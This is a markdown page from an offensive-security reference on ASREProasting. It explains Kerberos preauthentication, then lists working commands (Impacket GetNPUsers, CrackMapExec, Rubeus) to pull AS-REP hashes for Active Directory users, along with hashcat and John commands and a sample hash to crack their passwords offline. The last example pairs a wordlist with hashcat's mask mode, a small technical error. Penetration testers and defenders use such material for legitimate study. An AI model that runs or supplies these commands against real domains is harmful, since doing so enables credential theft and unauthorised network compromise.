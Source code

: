 # ASREProast
> [!THEORY]
When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.
>
The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.
>
Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.
>
Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.
>
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
>
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) \(Python\) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.
![AS-Rep Setting](../../../assets/asrep.png)

```bash
# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/'

# with a password
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/USER:Password'

# with an NT hash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).
```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt
```

The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.
```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try cracking the hashes.
```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

#### Examples
```
.\Rubeus.exe asreproast

# Get a hash like this
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA

# Add the $23$
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da

# Crack it
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```

References:
https://blog.xpnsec.com/kerberos-attacks-part-2/
https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/